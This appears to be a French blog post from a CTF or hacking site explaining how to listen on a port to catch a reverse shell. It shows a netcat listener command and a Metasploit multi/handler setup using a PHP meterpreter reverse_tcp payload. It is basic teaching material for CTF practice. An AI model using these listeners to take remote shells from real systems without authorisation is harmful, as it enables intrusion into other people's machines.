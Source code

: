```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse shell', 'Se mettre sous écoute sur un port', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour des besoins plus avancés, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
     
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234 et l'IP 10.23.201.17 en utilisant le payload php
      msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST 10.23.201.17
      set LPORT 1234
      run
  </code></pre> <br/>
     
---------------------------------------------

			
